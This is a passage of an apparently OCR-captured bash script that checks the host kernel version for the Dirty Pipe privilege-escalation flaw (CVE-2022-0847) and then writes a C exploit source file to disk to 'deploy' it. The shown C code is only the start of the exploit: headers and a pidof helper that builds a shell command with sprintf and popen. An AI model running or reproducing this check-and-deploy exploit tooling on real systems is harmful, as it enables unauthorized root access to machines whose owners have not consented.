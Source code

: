 ```bash
    return 1
}

# Function to check for CVE-2022-0847 (Dirty Pipe)
check_dirty_pipe() {
    echo "[*] Checking for Dirty Pipe vulnerability (CVE-2022-0847)..."
    
    # Vulnerable kernels: 5.8 through 5.16.11
    KERNEL_MAJOR=$(echo "$KERNEL_VERSION" | cut -d. -f1)
    KERNEL_MINOR=$(echo "$KERNEL_VERSION" | cut -d. -f2)
    
    if [ "$KERNEL_MAJOR" -eq 5 ] && [ "$KERNEL_MINOR" -ge 8 ] && [ "$KERNEL_MINOR" -le 16 ]; then
        if [ "$KERNEL_MINOR" -eq 16 ]; then
            KERNEL_PATCH=$(echo "$KERNEL_VERSION" | cut -d. -f3 | cut -d- -f1)
            if [ "$KERNEL_PATCH" -gt 11 ]; then
                echo "[-] Kernel 5.16.$KERNEL_PATCH is not vulnerable to Dirty Pipe."
                return 1
            fi
        fi
        
        echo "[+] Kernel $KERNEL_VERSION may be vulnerable to Dirty Pipe"
        
        # Attempt to deploy Dirty Pipe exploit
        echo "[*] Deploying Dirty Pipe exploit..."
        cat > dirty_pipe.c << 'EOF'
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/user.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

// Taken from https://github.com/TheAlgorithms/C/blob/master/misc/pid.c
int get_process_id_by_name(const char* process_name) {
    int id = -1;
    char command[128];
    FILE* fp;
    char buffer[64];

    /* Up to 128 chars for the command should be enough */
    sprintf(command, "pidof %s", process_name);
    
    /* Execute the command and get the results */
    fp = popen(command, "r");
    
    if (fp == NULL) {
        fprintf(stderr, "Could not execute command %s\n", command);
        return id;
    }
    
    /* Get the first result only (there may be multiple IDs) */
    if (fgets(buffer, sizeof(buffer), fp) != NULL) {
        id = atoi(buffer);
    }
    
    pclose(fp);
    return id;
}
```